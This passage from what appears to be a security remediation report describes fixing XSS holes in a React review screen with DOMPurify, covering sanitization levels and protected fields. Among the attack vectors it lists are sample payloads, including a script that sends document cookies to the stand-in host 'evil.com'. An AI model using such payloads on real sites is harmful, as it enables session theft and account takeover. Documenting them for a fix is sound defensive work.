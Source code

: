 
### 2. XSS Prevention with DOMPurify (CRITICAL)

**Problem**: User-generated content and AI-generated content rendered without sanitization in ReviewScreen.tsx, creating XSS attack vectors.

**Attack Vectors Closed**:
- Project titles: `<img src=x onerror="alert(document.cookie)">`
- Descriptions: `<script>fetch('evil.com/steal?cookie='+document.cookie)</script>`
- AI-generated showcases: Malicious content in phases, activities, rubrics
- Wizard data: Subject, motivation, scope, location fields

**Impact**:
- 🚨 **Session token theft**: Attacker could steal user authentication
- 🚨 **Account takeover**: Full access to victim's account
- 🚨 **Data exfiltration**: Read all user projects and personal data

**Solution Implemented**:
- ✅ Installed DOMPurify library (3.3.0) + TypeScript types
- ✅ Created `src/utils/sanitize.ts` with 4 sanitization presets
- ✅ Applied sanitization to all ReviewScreen content
- ✅ Defensive depth: Sanitize at multiple layers

**Sanitization Levels**:
1. **STRICT**: Remove all HTML (titles, short fields)
2. **BASIC_TEXT**: Allow `<p>`, `<strong>`, `<em>`, `<ul>`, `<li>` (descriptions)
3. **RICH_CONTENT**: Allow headings, links with `rel="noopener"` (showcases)
4. **MARKDOWN_SAFE**: Full markdown support (documentation)

**Files Modified**:
- `src/utils/sanitize.ts` (NEW - 365 lines)
- `src/features/review/ReviewScreen.tsx` (sanitization applied)
- `package.json` (DOMPurify dependencies added)

**Protected Fields**:
```typescript
// Strict (no HTML)
- projectTitle
- projectLocation
- subject, ageGroup, duration

// Basic text (safe formatting)
- projectDescription
- projectScope
- motivation, materials

// Rich content (links allowed)
- showcase.microOverview
- showcase.runOfShow[].description
- showcase.assignments[].instructions
```

**Code Example**:
```typescript
import { sanitizeStrict, sanitizeBasicText, sanitizeShowcase } from '../../utils/sanitize';

// Before (VULNERABLE)
const title = project.title; // Could contain <script>alert(1)</script>

// After (SAFE)
const title = sanitizeStrict(project.title); // Returns: "alert(1)"
```

---